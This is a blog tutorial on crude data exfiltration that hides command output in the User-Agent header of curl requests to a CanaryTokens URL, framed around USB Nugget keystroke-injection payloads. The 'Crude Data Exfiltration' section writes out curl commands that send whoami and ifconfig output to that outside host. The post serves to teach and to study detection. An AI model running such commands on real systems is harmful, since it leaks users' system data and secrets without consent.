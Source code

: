 ```yaml
---
title: "Easy Data Exfiltration with CanaryTokens"
description: ""
lead: "Write your first data exfil payload in minutes with the USB Nugget!"
excerpt: ""
date: 2022-08-27T11:07:26-07:00
lastmod: 2022-08-27T11:07:26-07:00
draft: false
weight: 50
images: ["incident-map.png"]
tags: ["CanaryTokens","DuckyScript","Data Exfiltration","USB Nugget"]
categories: []
contributors: ["Alex Lynd"]
pinned: false
homepage: false
---
```

<hr>

### Overview
If you're just getting started with data exfiltration, it might not be practical to set up an entire webserver or local environment just to try out some simple techniques, like web request exfiltration.

[In my Hak5 episode](), I created a simple proof-of-concept using an online tool called [CanaryTokens](), to demonstrate how simple it is to remotely exfiltrate a Linux password using a single command. 

Using a keystroke injection tool called the [USB Nugget](), I created a payload that demonstrates this sneaky attack in seconds - but if you dont have one, you can still practice the exfiltration techniques with your web browser.

### What You'll Need
- A computer (Linux preferable)
- [USB Nugget](https://usbnugget.com), or other DuckyScript device

<div>
<iframe width="560" height="315" src="https://www.youtube.com/embed/T3szLSA83AU" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</div>
<hr>

### What is Data Exfiltration?
Data exfiltration happens when a hacker needs to sneak sensitive data out of a compromised computer or network.  This can often be difficult to detect, since there's a variety of tricky obfuscation methods an attacker can use to disguise sensitive information as something less conspicuous.

### Hiding Data in Plain Sight: Web Traffic
One common method of data exfiltration involves hiding data inside of HTTP web traffic.  Since most network policies allow its users to browse the web, and since HTTP traffic (i.e. web requests) can usually comprise the majority of traffic on a network, it's hard to identify a single malicious source that's being used to exfiltrate data. 

In addition, data obfuscation methods like [steganography]() can make it even harder to identify if sensitive information is being stolen in plain sight, especially if used in conjunction with encryption.

<hr>

### Catching Hackers with CanaryTokens
[CanaryTokens]() is an awesome honeypot service developed by [Thinkst Canary]() that makes it easy to create bugged urls, documents, images, and more!  

Typically, these honeypots can be used to determine if a hacker is snooping through your system, by leaving a juicy looking target somewhere that's easy for them to find. Since most hackers aren't manually scanning through your filesystem for credentials and secrets, they'll often use a program to enumerate (and subsequently exfiltrate) specific file types like images or documents with keywords like *password* or *cryptocurrency*, for example.

Thanks to CanaryTokens it's pretty easy to detect this activity, since you'll recieve an email if the hacker opens one of these bugged files!


![CanaryTokens website](canarytokens.png "You can create bugged images, Word documents, and more.")


### Weaponizing CanaryTokens
One of my favorite unintended uses of CanaryTokens involves using the Incident Dashboard as a crude method of data exfiltration.

If you create a basic `web bug / URL token` as shown above, this dashboard lets you profile basic information about the system that clicks on your token, and even shows you the rough whereabouts using their Internet Service Provider.

Your unique link should look something like this:

![](canary-url.png "Example web bug CanaryTokens url")

The dashboard is super handy for determining every time there's a new "hit" on your CanaryToken - but can also be a great visual tool for trying out data exfiltration through web requests.

![](incident-map.png "CanaryTokens Dashboard with Incident List & Map")

<hr>

### User Agent Strings
One key piece of information that's revealed about the "victim" through this dashboard is a metadata field called the `User-Agent String`, which reveals information about their machine such as the:
- Operating System
- Browser type & version
- Windowing system  

When browsing the web, this string is sent as a header in HTTP packets so websites can identify what kind of device you're using.  This is makes it easy to render content for mobile devices, or serve downloads catered towards your operating system.

![](user-agent.png "The User-Agent String from my laptop, as detected by CanaryTokens")

### Custom User-Agents
Since there's no strict format for UA Strings, this means we can set it to arbitrary text - and use this parameter as a crude method of plain-text data exfiltration!  

We'll be trying this out by creating web-requests with a simple command-line tool called `curl`.  You should be able to use it on Linux, Mac, or the latest version of Windows.

Try running the following command to make a request to your CanaryToken!
```
curl https://canarytokens.org/yourtokenhere
```

![](curl-request.png "A Boring User-Agent String from command-line tool Curl")

Using the `-a` (agent) parameter, you can try sending the request with an arbitrary User Agent like `meow123456789`.

```
curl https://canarytokens.org/yourtokenhere -a "meow123456789"
```
![](dashboard-custom-ua.png "Custom User-Agent set through Curl")

### Crude Data Exfiltration

As you can see, manipulating the user-agent string is fairly simple - so now let's try exfiltrating sensitive system information!

To do this, you can pass the output of another command to the User-Agent String by escaping it with `$(<command>)` on Linux / Mac or `%command%` on Windows.  For example, the following command sets the output of `whoami` as the user agent.

```
curl https://canarytokens.org/yourtokenhere -a "$(whoami)"
```
If you want to try something a little fancier, you can create a command like `ifconfig | tr -d "\n"` which formats network information from the `ifconfig` command on a single line  By running the following request, you can see the output on the CanaryTokens dashboard below!

```
curl https://canarytokens.org/yourtokenhere -a "$(ifconfig | tr -d '\n')"
```
![](dashboard-network-info.png "Network info exfiltrated to CanaryTokens")

In my video, I used this in order to exfiltrate the contents of a text file containing an administrator password - but you can get creative and try passing the output of other commands.

### Conclusion & Diving Deeper
While this demo makes it easy to visualize how web requests can pass sensitive information through spoofed parameters, it's pretty clear that this technique has limitations, and isn't the most practical in an actual data exfiltration scenario.

However, hackers *do* actually spoof user-agent fields when exfiltrating data - in order to masquerade exfiltration processes as normal web traffic, or sometimes even as a custom flag that can trigger actions from a C2 server.

In future tutorials, we'll explore some of these use-cases, and also advanced techniques like DNS exfiltration with CanaryTokens.
